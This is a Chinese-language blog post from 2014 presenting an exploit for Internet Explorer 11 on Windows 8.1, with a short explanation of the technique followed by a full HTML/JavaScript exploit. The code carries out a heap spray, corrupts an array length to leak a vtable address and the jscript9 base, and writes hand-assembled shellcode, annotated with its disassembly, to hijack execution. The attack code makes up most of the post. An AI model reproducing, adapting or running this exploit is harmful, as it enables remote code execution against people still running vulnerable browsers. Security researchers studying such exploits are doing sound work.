 Title: Windows 8.1 + IE 11 Exploit
Date: 2014-02-28
Tags: Exploit


![Windows8.1_IE11_Exploit][Windows8.1_IE11_Exploit]


我的第一版只包含信息泄漏功能的代码只用了7行javascript。简单说一下这个方法比较有意思的地方吧，因为IntArray类型的数组在存储数据时高位不能为1。否则其会以double形式存储。这就导致我们在使用其存储shell code时需要编码(解决高位为1的问题)。而我比较喜欢用字符串来存储我的shell code，这样就可以将我以前的shell code不需要修改直接拿来使用了。

解决这个问题，我的思路主要是，先释放一个IntArray对象，然后使用一个ObjectArray类型的对象进行占位。这个ObjectArray对象内部保存着存储了shell code字符串的指针。这样就可以再进行一次信息泄漏来实现读取字符串的地址了。而因为IE 11内部存储字符串使用的是Js::LiteralString对象进行存储的。所以直接读取的其实是Js::LiteralString对象的地址而不是存储了shell code的BSTR的地址。解决这个问题我使用了一个技巧，详细可以看代码。简单的说就是，用一个很小的shell code来实现获取存储了shell code的BSTR的地址。再将其写入到IntArray中泄漏出来。很简单，但很有效。

因为我喜欢用最简单的方法来解决问题，所以我的代码极其短小、整洁。

代码具体如下：

```
<html>
	<body>
		<script>
            function exp()
            {
                var array_1 = new Array();
                var size = 0x1000 * 0x100;
                for(var i=0; i<size; i+=1)
                {
                    array_1[i] = new Array(1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1);
                }
                for(var i=size-2;i>0;i--)
                {
                    array_1[i][22] = 0x7fffffff;
                    array_1[i][29] = 0x7fffffff;
                    array_1[i][30] = 0x7fffffff;
                    if(array_1[i+1].length == 0x7fffffff)
                    {
                        var array_vft_address = array_1[i+1][18];
                        var jscript9_base_addr = array_vft_address - 0x00004534;
                        var shell_code = "\u9090\u9090";
                        delete array_1[i + 3];
                        CollectGarbage();
                        
                        var new_obj = new Array(shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code);
                        
                        array_1[i][0] = jscript9_base_addr + 0x00143BA1;
                        array_1[i][1] = 0x0c0c0000;
                        array_1[i][4] = 0x0c0c0000;
                        array_1[i+1][18] = 0x0c0bffbc;
                        0x0c0c003c in (array_1[i + 2]);
                        array_1[i][0] = 0x0c0c003c;

                        //get bstr address
                        //A1 90010C0C   mov eax,dword ptr ds:[0xC0C0190]
                        //83C0 0C       add eax,0xC
                        //8B18          mov ebx,dword ptr ds:[eax]
                        //8BC3          mov eax,ebx
                        //A3 B8000C0C   mov dword ptr ds:[0xC0C00B8],eax
                        //C2 0400       retn 0x4
                        array_1[i][1] = 0x0c0190a1;
                        array_1[i][2] = 0x0cc0830c;
                        array_1[i][3] = 0x4646188b;
                        array_1[i][4] = 0x4646c38b;
                        array_1[i][5] = 0x0c00b8a3;
                        array_1[i][6] = 0x0004c20c;
                        0x0c0c003c in (array_1[i + 2]);
                        var bstr_addr = array_1[i + 1][0];
                        array_1[i][0] = jscript9_base_addr + 0x00143BA1;
                        array_1[i][1] = 0x0c0c0000;
                        array_1[i][4] = bstr_addr-2;
                        array_1[i+1][18] = 0x0c0bffbc;
                        (0x0c0c003c) in (array_1[i + 2]);
                        alert("bstr protect edit");
                        array_1[i][0] = bstr_addr;
                        0x0c0c003c in (array_1[i + 2]);
                        break;
                    }
                }
            }
		</script>
	</body>
</html>
```

感谢：

* @tombkeeper
* @ga1ois
* @bluerust

在此还要感谢这篇文章的作者，《A browser is only as strong as its weakest byte Exodus Intelligence》:http://ifsec.blogspot.jp/2013/11/exploiting-internet-explorer-11-64-bit.html，没有你那么深刻的讲解，我自己也许不知道什么时候才能想的到这么巧妙的方法。所有的掌声都送给你。

[Windows8.1_IE11_Exploit]: /Windows8.1_and_IE11_Exploit/images/Windows8.1_and_IE11_Exploit.gif